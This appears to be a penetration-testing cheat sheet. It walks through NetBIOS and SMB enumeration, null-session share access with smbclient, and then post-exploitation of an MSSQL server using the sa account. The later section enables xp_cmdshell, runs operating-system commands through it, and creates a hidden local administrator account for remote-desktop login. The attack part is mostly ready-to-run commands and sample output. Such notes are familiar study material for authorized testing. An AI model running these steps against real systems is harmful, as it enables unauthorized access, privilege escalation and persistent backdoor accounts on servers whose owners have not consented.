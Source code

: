 ## Lookup Netbios Names

>nmblookup -A 10.11.1.31

### Example Output:

```
	DAVID           <00> -         B <ACTIVE> 
	CORP            <00> - <GROUP> B <ACTIVE> 
	DAVID           <1f> -         B <ACTIVE> 
	DAVID           <03> -         B <ACTIVE> 
	DAVID           <20> -         B <ACTIVE> 
	THINC           <1e> - <GROUP> B <ACTIVE> 
	CORP            <1d> -         B <ACTIVE> 
	..__MSBROWSE__. <01> - <GROUP> B <ACTIVE> 
```

## Samba Enumeration with Nmap

```nmap -sV --script=smb-enum-shares -p445 $ip```

## Connect to Share without Password


This is an FTP like client to access SMB and CIFS resources on servers
-L specifies the Netbios name
-I is destination IP
-N is no password

>  smbclient -L \\COMPUTERNAME -I 10.0.0.1 -N

### Example Output:
```
OS=[Windows Server 2003 3790 Service Pack 1] Server=[Windows Server 2003 5.2]

	Sharename       Type      Comment
	---------       ----      -------
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	ADMIN$          Disk      Remote Admin
	public_access         Disk      
OS=[Windows Server 2003 3790 Service Pack 1] Server=[Windows Server 2003 5.2]

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	
```

## Connect to specific directory

>smbclient //DAVID/public_access -I 10.11.1.31 -N

# Further Exploitation with Username and Password for MSSQL Server

## Ensure you have relevant tools installed
>apt-get install sqsh freetds-bin freetds-common freetds-dev

## Show Databases
> sqsh -S 10.0.0.1 -U sa -P fdasjkl3 -C "SELECT name FROM master.dbo.sysdatabases"

## Login to sql command line
>sqsh -S 10.0.0.1 -U sa -P fdasjkl3

## If xp_cmdshell is not turned on then you have to enable it. This requires "advanced options" to be on:
```
exec sp_configure ‘show advanced options’, 1
go
reconfigure
go
```

# Output directory of C:\
> xp_cmdshell 'dir C:\'


##Add a new user and put them into Administrators Group
```
xp_cmdshell 'net user bob password /add'
go
xp_cmdshell 'net localgroup Administrators bob /add'
go
```


Now login via remote desktop if you have access
